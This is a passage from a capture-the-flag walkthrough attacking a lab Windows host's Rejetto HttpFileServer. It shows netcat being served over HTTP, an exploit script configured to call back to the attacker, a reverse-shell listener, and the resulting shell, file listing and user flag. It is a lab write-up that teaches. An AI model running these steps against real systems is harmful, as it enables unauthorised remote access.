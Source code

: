 Let's host a `nc.exe` using Python SimpleHTTPServer on Port 80.
```
hippoeug@kali:~/Documents$ sudo python -m SimpleHTTPServer 80
[sudo] password for hippoeug: 
Serving HTTP on 0.0.0.0 port 80 ...
```

We also need to change our port on our Python script to something else, since 80 is used to host `nc.exe`. We will use 443.
```
hippoeug@kali:~$ nano 39161.py
...
        ip_addr = "10.10.x.x" # Local IP address
        local_port = "443" # Local Port number
...
```
After which, we start a listener again on Port 443 with `sudo nc -lvnp 443` and execute the Pythohn script with `python 39161.py 10.10.10.8 80`.
```
hippoeug@kali:~$ sudo nc -lvnp 443
listening on [any] 443 ...
connect to [10.10.x.x] from (UNKNOWN) [10.10.10.8] 49330
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
C:\Users\kostas\Desktop>

C:\Users\kostas\Desktop>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users\kostas\Desktop

09/01/2021  04:47 ��    <DIR>          .
09/01/2021  04:47 ��    <DIR>          ..
18/03/2017  02:11 ��           760.320 hfs.exe
18/03/2017  02:13 ��                32 user.txt.txt
               2 File(s)        760.352 bytes
               2 Dir(s)  31.899.250.688 bytes free
```
Success!

**NOTE: There is a metasploit module for this `39161.py` vulnerability, [Rejetto HttpFileServer Remote Command Execution](https://www.rapid7.com/db/modules/exploit/windows/http/rejetto_hfs_exec/).**

Let's get our first flag!
```
C:\Users\kostas\Desktop>type user.txt.txt
type user.txt.txt
d0c39409d7b994a9a1389ebf38ef5f73
```
We now need to get the system flag.

Let's look at the other accounts on the system and try access them.
```
C:\Users>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is D0BC-0196

 Directory of C:\Users

18/03/2017  01:57 ��    <DIR>          .
18/03/2017  01:57 ��    <DIR>          ..
18/03/2017  01:52 ��    <DIR>          Administrator
18/03/2017  01:57 ��    <DIR>          kostas
09/01/2021  07:04 ��    <DIR>          Public
```